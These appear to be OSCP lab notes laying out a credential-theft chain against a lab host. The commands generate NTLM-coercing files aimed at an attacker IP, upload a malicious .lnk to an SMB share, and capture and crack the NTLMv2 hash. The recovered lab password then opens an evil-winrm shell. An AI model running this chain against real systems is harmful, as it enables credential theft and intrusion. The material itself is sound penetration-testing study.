 ```bash

search google

generate force NTLMv2 Authentication files site:github.com

https://github.com/Greenwolf/ntlm_theft

This is allowed on OSCP as it is NOT automatic exploitation

```

```bash
# https://github.com/Greenwolf/ntlm_theft

python3 ntlm_theft.py -g all -s 192.168.45.245 -f payment.pdf


# responder is only in analyze mode, no poisoning or spoofing is being used
sudo responder -I tun0 -A


smbclient \\\\192.168.165.172\\DocumentsShare
put payment.pdf.lnk

# check responder, we should see NTLMv2 hit

hashcat hash /usr/share/wordlists/rockyou.txt

# NTLMv2 should be auto detected..
# if we can't crack, we can also relay

PASS: SecureHM

```

Now that we have a password, we should re-enumerate shares
```bash
nxc smb 192.168.205.172 -u "anirudh" -p "SecureHM" --shares

nxc winrm 192.168.205.172 -u "anirudh" -p "SecureHM" --shares

evil-winrm -i 192.168.205.172 -u "anirudh" -p "SecureHM" 


```



### OSCP Exam



---
